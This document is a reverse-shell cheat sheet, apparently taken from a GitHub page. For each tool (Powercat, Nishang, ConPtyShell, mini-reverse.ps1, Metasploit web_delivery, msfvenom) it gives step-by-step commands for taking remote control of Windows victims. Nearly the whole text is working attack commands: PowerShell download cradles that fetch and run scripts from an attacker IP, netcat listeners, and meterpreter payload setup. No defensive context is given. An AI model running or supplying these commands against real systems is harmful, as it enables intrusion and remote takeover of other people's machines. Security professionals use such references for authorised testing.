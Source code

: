 
######### Reverse Shell ######### 

Windows Reverse Shell
----------------------

Powercat 
=========

Kali:

wget https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1

python -m SimpleHTTPServer 80

nc -vlp 4444

Win Victim: (Run on CMD)

powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.42.129/powercat.ps1');powercat -c 192.168.42.129 -p 4444 -e cmd"

Invoke-PowercatShellTcp (Nishang)
=================================

Kali:

wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

python -m SimpleHTTPServer 80

nc -vlp 4444

Win Victim: (Run on CMD)

powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.42.129/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.42.129 -Port 4444

ConptyShell
===========

Kali:

wget https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1

python -m SimpleHTTPServer 80

stty raw -echo; (stty size; cat) | nc -lvnp 4444

Win Victim: (Run on CMD)

powershell iex (New-Object Net.WebClient).DownloadString('http://192.168.42.129/Invoke-ConPtyShell.ps1'); Invoke-ConPtyShell 192.168.42.129 4444

mini-reverse.ps1
================

Kali:

wget https://gist.githubusercontent.com/Serizao/6a63f35715a8219be6b97da3e51567e7/raw/f4283f758fb720c2fe263b8f7696b896c9984fcf/mini-reverse.ps1

cat mini-reverse.ps1 
nano mini-reverse.ps1	(Edit IP/Port for reverse connection)

python -m SimpleHTTPServer 80

nc -vlp 4444

Win Victim: (Run on CMD)

powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.42.129/mini-reverse.ps1')

PowerShell Reverse TCP 
=======================

Kali:

wget https://raw.githubusercontent.com/ivan-sincek/powershell-reverse-tcp/master/src/original/powershell_reverse_tcp.ps1

cat powershell_reverse_tcp.ps1 
nano powershell_reverse_tcp.ps1	(Edit IP/Port for reverse connection)

python -m SimpleHTTPServer 80

nc -vlp 4444

Win Victim: (Run on CMD)

powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.42.129/powershell_reverse_tcp.ps1')

Web_Delivery
=============

Kali: using meterpreter payload

msfconsole

use exploit/multi/script/web delivery
show targets 
set target 2 (PSH)
set payload windows/x64/meterpreter/reverse_tcp
set lhost 192.168.42.129
set lport 4444
exploit

copy the payload and run on Victim CMD

Win Victim: (Run on CMD) copy the payload and run on Victim CMD

Kali:

sessions 1
sysinfo

MSFVenom
---------

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe

python -m SimpleHTTPServer 80

nc -lvp 4444

Victim: browse - 192.168.1.2:8080




